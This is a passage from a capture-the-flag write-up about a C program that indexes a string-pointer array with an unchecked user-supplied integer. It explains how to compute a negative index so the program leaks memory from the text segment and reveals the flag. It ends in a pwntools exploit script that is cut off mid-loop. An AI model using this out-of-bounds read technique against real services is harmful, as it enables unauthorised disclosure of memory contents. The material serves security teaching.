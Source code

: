     printf("Courses [%p]:\n", courses);
    for(int i = 0; i < 8; i++) {
        printf("  - [%p] %s\n", courses[i], courses[i]);
    }

    printf("\n");
    printf("Pick one: ");
    fflush(stdout);

    long x = 0;
    scanf("%ld", &x);

    printf("You picked %p\n", courses[x]);

    return 0;
}
```

The variable `courses` holds a list of string pointers. We know that strings are readonly arrays of chars. All strings are located in the `.text` segment of the program. As the flag is also a string constant in the program it is also located somewhere in this section. The program prints the addresses of `courses` which is on the stack, as well as the addresses of all course strings which are in `.text`. Afterwards the result of the `courses[x]` expression is printed as a 4 byte hex number (using the `%p` formatting on 32 bit machines). Given the adress of `courses` as e.g. `0xffa2dd0c` and `x` as `3` the expression `courses[x]` effectively loads 4 bytes from the address `courses + 4 * x` which is `0xffa2dd0c + 4 * 3`. Given the address of the String `"Maths 1"` as e.g. `0x56591032` we can calculate an `x` in order to read four bytes from the text segment: `(0x56591032 - 0xffa2dd0c) / 4 = -710046518,5`. Entering `-710046518` for x we should be able to read bytes 2-6 of the `"Maths 1"` string, which should be `ths `. The program outputs `0x20736874`, which we can convert to a string by changing the byte order (little endian read from linear array) and then interpreting each byte as a hex encoded ascii character:
- 0x74 -> 116 -> t
- 0x68 -> 104 -> h
- 0x73 -> 115 -> s
- 0x20 -> 32 -> space

As we can see with each run of the program we can dump 4 bytes from the `.text` segment of the program. Using this technique we can search for the flag and dump it.

While this could be achieved manually, the following shows a python program which performs this task automatically. Running the program results in:
```
????????????????????????????????????????????????????????nflag{c4lcul4t1ng-th3-0ffs3ts-l1k3-a-pro}.Maths 1.Maths 2.Object Oriented Programming.Computer Vision.IT-Security.Forens????Software Engineering.Theoretical Computer Science.Courses [%????.  - [%p] %s..Pick one: .%ld.You picked ????...;????????
```
This is a dump of most of the strings from the `.text` section. As we can see it includes the flag `nflag{c4lcul4t1ng-th3-0ffs3ts-l1k3-a-pro}`

**Python script:**
```
from pwn import *
from binascii import unhexlify
result = ""
for offset in range(-100, 200, 4):
    try:
        p = remote("localhost", 4000) # replace with your target
        p.readuntil("Courses [0x")
        courses = int(p.read(8), 16)
        p.readuntil("  - [0x")
        math1 = int(p.read(8), 16)
        p.readuntil("Pick one:")
        x = int((math1 - courses + offset) / 4)
        p.sendline(str(x).encode("utf8"))
        p.readuntil("You picked 0x")